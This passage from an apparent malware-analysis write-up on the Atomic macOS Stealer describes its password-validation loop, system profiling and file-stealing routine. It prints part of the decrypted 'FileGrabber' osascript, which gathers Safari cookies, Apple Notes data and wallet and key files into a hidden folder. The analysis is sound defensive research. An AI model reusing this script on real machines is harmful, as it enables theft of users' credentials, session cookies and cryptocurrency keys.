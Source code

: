 After that, the malware executes the **dscl** command again to validate the credentials, this process will be executed until the user enters the correct password. The credentials check is done by the **haha_check_cv** function. 

The following screenshot of the **getpasswordit** function, shows the exit condition from the loop responsible to ask the user password, it breaks when the **haha_check_cv** returns 1.


{{< image src="img/2024-03-08-atomic-macos-stealer-amos-analysis/img16.png" caption="Figure 16 - exe getpasswordit Loop" wrapper="text-center">}}


### Get System Information

The malware gets system information by executing the following command via **shellarmy**.

~~~bash
system_profiler SPSoftwareDataTye SPHardwareDataType SPDisplaysDataType
~~~

In the image below we can see a portion of the command result in the debugger.

{{< image src="img/2024-03-08-atomic-macos-stealer-amos-analysis/img17.png" caption="Figure 17 - system_profiler output" wrapper="text-center">}}

At this point RussianPanda reportes an anti-vm check, in this sample this check is not implemented.

### Steal Data

The Malware uses several functions to steal files related to Browsers, Wallets and System data.

[RussiandPanda](https://russianpanda.com) and [BitDefender](https://www.bitdefender.com/blog/labs/when-stealers-converge-new-variant-of-atomic-stealer-in-the-wild/) reported the new version of the "**FileGrabber**" functionality used by the malware to grab several files and put them in the folder **~/fg/**. In their blogs, they showed the osascript used to do this.

In my sample  the **FileGrabber** osacript and the related string **FileGrabber** used to create the file in the zip, are both encrypted in the segment section at the following addresses:

* 0x10003DFE2
* 0x10003E0FA
* 0x10003E33A
* 0x10003E5CA
* 0x10003E8EA

These strings are decrypted during the malware execution, but the script itself is never executed. In the following snipet you can see the decrypted **FileGrabber** osascript.

~~~bash
osascript -e '
    set destinationFolderPath to (path to home folder as text) & "fg:"
    set extensionsList to {"txt","png","jpg","jpeg","wallet","keys","key"} 
    set bankSize to 0 
    tell application "Finder" 
    set username to short user name of (system info) 
    try 
        if not (exists folder destinationFolderPath) then 
            make new folder at (path to home folder) with properties {name:"fg"} 
        end if 
        set safariFolder to ((path to library folder from user domain as text) & "Containers:com.apple.Safari:Data:Library:Cookies:") 
        try 
            duplicate file "Cookies.binarycookies" of folder safariFolder to folder destinationFolderPath with replacing 
        end try 
        
        set notesFolderPath to (path to home folder as text) & "Library:Group Containers:group.com.apple.notes:" 
        try 
            set notesFolder to folder notesFolderPath 
~~~